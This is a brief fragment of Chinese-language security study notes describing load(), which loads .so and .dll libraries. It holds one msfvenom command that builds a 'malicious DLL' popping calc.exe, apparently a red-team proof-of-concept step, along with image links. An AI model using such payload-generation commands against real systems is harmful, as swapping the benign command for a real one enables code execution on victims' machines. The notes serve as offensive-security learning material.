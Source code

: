 ![image-20211126115612941](rt.assets/image-20211126115612941-16397529804461.png)





#### load()

- 加载动态链接库，如linux下的so文件，windows下的dll文件。

msf恶意dll生成（弹计算器）

> ```bash
> msfvenom -p windows/x64/exec --platform win -a x64 CMD=calc.exe EXITFUNC=thread -f dll> calc.dll
> ```

![image-20211108002026565](rt.assets/image-20211108002026565.png)


